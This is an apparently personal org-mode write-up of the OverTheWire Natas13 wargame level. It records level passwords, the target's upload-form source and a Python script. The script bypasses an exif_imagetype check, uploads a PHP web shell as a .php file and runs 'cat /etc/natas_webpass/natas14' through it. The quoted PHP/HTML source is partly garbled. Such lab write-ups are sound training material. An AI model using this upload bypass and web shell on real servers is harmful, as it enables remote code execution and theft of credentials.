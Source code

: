 :PROPERTIES:
:ID:       d803954c-1f3e-4471-b741-0cb738ec73f8
:END:
#+title: Natas13
* Previous
[[id:fdd79b13-1484-46a9-a443-bd8432d7da31][Natas12]]

* Password
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* Flag
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* Notes

From top page:
#+begin_src html
For security reasons, we now only accept image files!
<form action="index.php" enctype="multipart/form-data" method="POST">
  <input name="MAX_FILE_SIZE" type="hidden" value="1000"/>
  <input name="filename" type="hidden" value="rvvrls0juz.jpg"/>
  Choose a JPEG to upload (max 1KB):
  <input name="uploadedfile" type="file"/>
  <input type="submit" value="Upload File"/>
</form>
<div id="viewsource">
  <a href="index-source.html">
    View sourcecode
#+end_src

From index-source.html:
#+begin_src php
<?
    function genRandomString() {
        $length = 10;
        $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
        $string = "";

        for ($p = 0; $p < $length; $p++) {
                $string .= $characters[mt_rand(0, strlen($characters)-1)];
            }

        return $string;
    }

function makeRandomPath($dir, $ext) {
    do {
            $path = $dir."/".genRandomString().".".$ext;
        } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
            echo "File is not an image";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\"> $target_path
                          has been uploaded";
            } else {
                echo "There was an error uploading the file, please try again!";
            }
        }
} else {
?>;
    <form enctype="multipart action="index.php" form-data"="" method="POST">
                 <input type="hidden" name="max_file_size" value="1000" >
                 </input type="hidden" name="max_file_size" value="1000" >
                 <input type="hidden" name="filename" value="<? print genrandomstring(); ?>
        .jpg" /&gt;
        Choose a JPEG to upload (max 1KB):
    <input name="uploadedfile" type="file" >
        </input name="uploadedfile" type="file" >
        <br >
        </br >

        <input type="submit" value="upload file" >
        </input type="submit" value="upload file" >


        <? } ?>

            <div id="viewsource">
    <a href="index-source.html">
    View sourcecode


    </a href="index-source.html">
    </div id="viewsource">
    </input type="hidden" name="filename" value="<? print genrandomstring(); ?>
      </form enctype="multipart>
    </a href=\"$target_path\">
    </div id="content">
    </body>

    </html>

    </span>
    </code>
    0123456789abcdefghijklmnopqrstuv
#+end_src

The server uses the `exif_imagetype` function to verify the type of the file.
This is done by checking the first few bytes of a file. See [[https://en.wikipedia.org/wiki/List_of_file_signatures][file signatures]].
The server can be tricked by adding the right signature at the beginning of the file.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas13"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# response = session.get(url + "index-source.html", auth=(username, password))

response = requests.post(
    url,
    auth=(username, password),
    data={"filename":"xxx.php"},
    files={'uploadedfile': open('revshell2.php', 'rb')}
)

raw_content = response.text
sourcecode = html.unescape(raw_content)
soup = bs(sourcecode, features="html.parser")
# headers = response.headers
# print(headers)
# print(soup.prettify())

script_path = re.findall("(upload/[a-zA-Z0-9]{10}.php)", raw_content)[0]

if script_path :
    raw_content = requests.get(
    url+script_path+"?var=cat /etc/natas_webpass/natas14",
    auth=(username, password)
).text
else :
    print("Error. No path found.")

p = re.findall("([a-zA-Z0-9]{32})", raw_content)

if p and p[0] == password:
    p.pop(0)

if p :
    print(p[0])
#+end_src

#+RESULTS:
: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* Next
[[id:97c8b7c2-a841-41a4-ba77-8a5a045b74cb][Natas14]]
